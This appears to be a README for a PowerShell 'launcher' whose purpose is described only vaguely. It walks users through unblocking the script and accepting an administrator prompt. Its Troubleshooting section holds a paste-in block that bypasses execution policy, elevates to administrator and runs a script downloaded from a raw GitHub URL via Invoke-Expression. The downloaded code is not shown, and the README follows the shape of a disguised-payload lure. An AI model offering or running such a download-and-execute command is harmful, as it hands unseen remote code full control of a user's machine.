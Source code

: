 # WingitLauncher

A PowerShell-based launcher utility designed to streamline application deployment and execution.

## Overview

WingitLauncher is a PowerShell script that provides an automated solution for launching and managing applications. The launcher handles the necessary setup and execution processes to ensure smooth operation across different Windows environments.

## Installation & Setup

### Step 1: Download the Launcher

1. Navigate to the repository and locate the `wingitlauncher.ps1` file
2. Click on the file to view its contents
3. Click the **Download** button or **Raw** button to download the PowerShell script
4. Save the file to your desired location on your local machine

### Step 2: Unblock the Downloaded File

Due to Windows security policies, downloaded PowerShell scripts are typically blocked by default. To enable execution:

1. **Right-click** on the downloaded `wingitlauncher.ps1` file
2. Select **Properties** from the context menu
3. In the Properties dialog box, locate the **Security** section at the bottom
4. Check the box next to **Unblock** if it appears
5. Click **OK** to apply the changes

### Step 3: Execute the Launcher

1. **Right-click** on the `wingitlauncher.ps1` file
2. Select **Run with PowerShell** from the context menu
3. A **User Account Control (UAC)** prompt will appear requesting administrator permissions
4. Click **Yes** to grant the necessary permissions
5. The launcher will now execute with the required privileges

## System Requirements

- Windows 10 or later
- PowerShell 5.1 or later
- Administrator privileges (required for UAC elevation)

## Security Considerations

This launcher requires administrator privileges to function properly. The UAC prompt is a security feature that ensures you are aware of the elevated permissions being requested. Only proceed if you trust the source and understand the implications of running scripts with administrator access.

## Troubleshooting

If you encounter any issues with the launcher or need to bypass execution policy restrictions, run the following script in PowerShell:

```powershell
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    # Define the command to run elevated
    $Cmd = 'Set-ExecutionPolicy Bypass -Scope Process -Force; Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dylan0760/Windows-Winget/refs/heads/main/GuI%20Github.ps1").Content'
    # Relaunch PowerShell elevated, telling it to execute the command
    Start-Process powershell -Verb RunAs -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command & { $Cmd }"
    Write-Host "Attempting to relaunch with Administrator privileges..." -ForegroundColor Yellow
} else {
    # Already running as Administrator, execute directly
    Write-Host "Running with Administrator privileges." -ForegroundColor Green
    Set-ExecutionPolicy Bypass -Scope Process -Force; Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dylan0760/Windows-Winget/refs/heads/main/GuI%20Github.ps1").Content
}